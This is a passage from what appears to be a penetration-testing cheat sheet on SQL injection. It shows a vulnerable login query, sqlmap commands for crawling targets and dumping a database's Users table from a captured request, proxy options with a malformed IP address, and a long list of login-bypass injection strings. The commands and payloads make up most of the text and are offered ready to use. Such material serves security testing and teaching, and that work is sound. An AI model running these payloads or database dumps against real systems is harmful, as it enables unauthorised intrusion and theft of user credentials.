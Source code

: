 	 $query = "SELECT * FROM users WHERE username = 'admin' AND password='whatever' OR '1'='1'";

## SQLmap

Sqlmap is a great tool to perform sql-injections. Here is the manual.https://github.com/sqlmapproject/sqlmap/wiki/Usage

### Using sqlmap with login-page

So you need to authenticate before you can access the vulnerable paramter.

You just cature the request using burp suite, and save the requiest in a file. Then your run

	 sqlmap -r request.txt

Since the cookie is saved in the reuqest sqlmap can do it.

### Crawl a page to find sql-injections

	 sqlmap -u http://example.com --crawl=1

### Dumping a database or table

Here we are dumping the database Webapp and the table Users.

	 sqlmap -r request.txt -p username --dbms=mysql --dump -D Webapp -T Users

### Use proxy

	 --proxy="http://192.2.2.2.2:1111"

**Proxy credencials**

	 --proxy-cred="username:password"

## Login bypass

This is the most classic, standard first test:

	 ' or '1'='1

Then you have:

	 -'
	' '
	'&'
	'^'
	'*'
	' or ''-'
	' or '' '
	' or ''&'
	' or ''^'
	' or ''*'
	"-"
	" "
	"&"
	"^"
	"*"
	" or ""-"
	" or "" "
	" or ""&"
	" or ""^"
	" or ""*"
	or true--
	" or true--
	' or true--
	") or true--
	') or true--